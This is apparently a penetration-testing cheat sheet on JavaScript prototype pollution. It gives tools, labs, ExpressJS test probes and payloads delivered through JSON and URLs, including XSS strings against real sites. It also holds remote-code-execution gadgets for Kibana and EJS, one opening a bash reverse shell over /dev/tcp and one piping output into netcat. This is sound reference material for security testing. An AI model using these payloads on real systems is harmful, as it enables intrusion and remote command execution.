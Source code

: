 # Prototype Pollution

> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object.prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.


## Summary

* [Tools](#tools)
* [Labs](#labs)
* [Exploit](#exploit)
    * [Examples](#examples)
    * [Manual Testing](#manual-testing)
    * [Prototype Pollution via JSON input](#prototype-pollution-via-json-input)
    * [Prototype Pollution in URL](#prototype-pollution-in-url)
    * [Prototype Pollution Payloads](#prototype-pollution-payloads)
    * [Prototype Pollution Gadgets](#prototype-pollution-gadgets)
* [References](#references)


## Tools

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation
* [yuske/silent-spring](https://github.com/yuske/silent-spring) - Prototype Pollution Leads to Remote Code Execution in Node.js
* [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Server-Side Prototype Pollution gadgets in Node.js core code and 3rd party NPM packages
* [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - Prototype Pollution and useful Script Gadgets
* [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite Extension detectiong Prototype Pollution vulnerabilities
* [msrkp/PPScan](https://github.com/msrkp/PPScan)

## Labs

* [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
* [PortSwigger - Prototype Pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)


## Exploit

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.

```js
var myDog = new Dog();

// Points to the function "Dog"
myDog.constructor;

// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```


### Examples

* Imagine that an application uses an object to maintain configuration settings, like this:
    ```js
    let config = {
        isAdmin: false
    };
    ```
* An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
    ```js
    Object.prototype.isAdmin = true;
    ```


### Manual Testing

* ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
* ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
* ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
* Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
* Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
* Change the status code: `{ "__proto__":{"status":510}}`


### Prototype Pollution via JSON input

You can access the prototype of any object via the magic property `__proto__`. 
The `JSON.parse()` function in JavaScript is used to parse a JSON string and convert it into a JavaScript object. Typically it is a sink function where prototype pollution can happen.


```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

Asynchronous payload for NodeJS.

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```


### Prototype Pollution in URL

Example of Prototype Pollution payloads found in the wild.

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```


### Prototype Pollution Exploitation

Depending if the prototype pollution is executed client (CSPP) or server side (SSPP), the impact will vary.

* Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
    ```js
    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
    ```
* Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)
    ```js
    {
        "__proto__": {
            "client": 1,
            "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
        }
    }
    ```
* Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)
* Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* Deny of Service


### Prototype Pollution Payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```


### Prototype Pollution Gadgets

A "gadget" in the context of vulnerabilities typically refers to a piece of code or functionality that can be exploited or leveraged during an attack. When we talk about a "prototype pollution gadget," we're referring to a specific code path, function, or feature of an application that is susceptible to or can be exploited through a prototype pollution attack.

Either create your own gadget using part of the source with [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder), or try to use already discovered gadgets [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).


## References

* [A Pentester’s Guide to Prototype Pollution Attacks - HARSH BOTHRA - JAN 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
* [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild - s1r1us](https://blog.s1r1us.ninja/research/PP)
* [Detecting Server-Side Prototype Pollution - Daniel Thatcher - February 15, 2023](https://www.intruder.io/research/server-side-prototype-pollution)
* [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609) - MICHAŁ BENTKOWSKI - October 30, 2019](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
* [NodeJS - __proto__ & prototype Pollution - HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
* [Prototype Pollution - PortSwigger](https://portswigger.net/web-security/prototype-pollution)
* [Prototype pollution - Snyk](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
* [Prototype pollution and bypassing client-side HTML sanitizers - MICHAŁ BENTKOWSKI - August 18, 2020](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* [Prototype Pollution and Where to Find Them - BitK & SakiiR - AUGUST 14, 2023](https://youtu.be/mwpH9DF_RDA)
* [Prototype Pollution Attack in NodeJS - Olivier Arteau](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
* [Prototype pollution attacks in NodeJS applications - Olivier Arteau - Youtube](https://youtu.be/LUsiFV3dsK8)
* [Prototype Pollution Leads to RCE: Gadgets Everywhere - Mikhail Shcherbakov](https://youtu.be/v5dq80S1WF4)
* [Server side prototype pollution, how to detect and exploit - YesWeHack](https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
* [Server-side prototype pollution: Black-box detection without the DoS - Gareth Heyes - 15 February 2023](https://portswigger.net/research/server-side-prototype-pollution)
* [Keynote | Server Side Prototype Pollution: Blackbox Detection Without The DoS - Gareth Heyes](https://youtu.be/LD-KcuKM_0M)